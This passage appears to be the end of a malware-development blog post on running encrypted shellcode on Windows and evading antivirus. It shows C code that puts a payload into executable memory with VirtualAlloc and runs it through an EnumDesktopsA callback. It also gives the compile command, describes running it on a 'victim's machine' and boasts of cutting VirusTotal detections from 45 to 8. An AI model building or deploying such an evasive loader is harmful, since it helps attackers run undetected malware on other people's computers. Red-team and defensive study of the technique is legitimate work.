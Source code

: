 ```cpp
  for (size_t i = 0; i < my_payload_len; i++) {
    printf("\\x%02x", exec_mem[i]);
  }

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, exec_mem, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  
  return 0;
}
```

### demo

Let's go to see everything in action. Compile our final "malware":     

```bash
x86_64-w64-mingw32-gcc -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -lcrypt32
```

![hack]({{ site.baseurl }}/images/2/2023-03-08_21-03.png)    

Then, run it at the victim's machine (`Windows 10 x64`):     

![hack.exe]({{ site.baseurl }}/images/2/2023-03-08_21-05.png)    

As you can see, everything is worked perfectly! =^..^=

Let's go to upload this `hack.exe` to VirusTotal:     

![vtfinal]({{ site.baseurl }}/images/2/2023-03-08_21-07.png)     

[https://www.virustotal.com/gui/file/f670cad1158c9bce595327edd77548997b39749abe8cb01d2a4c6ef1e135e7a1/details](https://www.virustotal.com/gui/file/f670cad1158c9bce595327edd77548997b39749abe8cb01d2a4c6ef1e135e7a1/details)      

As you can see, we have reduced the **number of AV engines which detect our malware from 45 to 8!**    

I hope this post spreads awareness to the blue teamers of this interesting encrypting technique, and adds a weapon to the red teamers arsenal. Also this post is useful for entry level cybersec specialists and for professionals.     

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are Cyber 5W*    
